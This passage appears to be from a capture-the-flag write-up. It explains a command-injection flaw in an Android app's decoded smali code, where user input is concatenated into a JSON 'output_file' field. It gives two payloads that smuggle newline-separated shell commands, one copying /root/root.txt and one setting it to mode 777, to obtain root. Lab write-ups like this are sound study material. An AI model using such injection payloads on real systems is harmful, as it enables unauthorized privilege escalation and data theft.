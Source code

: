 This vulnerability can be seen under: `smali/q0/b.smali` when the `apk` is decoded.

> **NOTE** had an LLM look at the code and adapt it to become easier to understand, the following is the result. Furthermore, if I had found the binary quicker I wouldn't have to do that trial and error.

```java
jsonRequest = "{'command': 'send_image', 'output_file': '" + this.userInput + "'}"

writeToFile(jsonRequest)
```
Some characters are sanitized however we can still get root flag by copying it and changing permissions:
```json
{"command":"send_image",
"output_file":"/home/developer/test \n cp /root/root.txt /home/developer/"}

{"command":"send_image",
"output_file":"/home/developer/test \n chmod 777 /home/developer/root.txt"}
```
Just like that we have root!